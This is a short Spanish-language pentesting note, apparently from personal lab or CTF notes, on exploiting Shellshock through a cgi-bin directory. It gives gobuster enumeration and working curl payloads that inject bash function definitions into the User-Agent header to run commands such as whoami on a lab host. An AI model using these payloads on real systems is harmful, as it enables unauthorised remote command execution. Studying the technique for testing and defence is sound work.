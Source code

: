 Normalmente caemos en esta vulnerabilidad cuando encontramos el directorio **cgi-bin**, que lo podremos encontrar fuzzeando ( recuerda añadir la / en wfuzz para encontrarlo o la opción --add-slash en gobuster).

Una vez encontrado habría que fuzzear dentro de este directorio:
```sh
gobuster dir -u http://10.10.12.12/cgi-bin/ -w DICIONARIO -t 30 -x pl,sh,cgi
# Imagina que encontramos un recurso llamado estrella
```
Dejo por aquí una página donde explican bien el ataque; [página](https://blog.cloudflare.com/inside-shellshock/).  Y copio el ejemplo del uso de cabeceras:
```sh
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
# /bin/eject te extrae la disquetera. Pero claro..usaríamos otro comando
```
```sh
curl -s http://10.10.12.12/cgi-bin/estrella -H "User-Agent: () { :; }; /usr/bin/whoami"
# Hay que indicar el comando de manera absoluta. Si no te reportara el comando prueba a meterle un echo; :
curl -s http://10.10.12.12/cgi-bin/estrella -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
# Si tampoco podrías añadirle otro echo; más.
```

- - - 




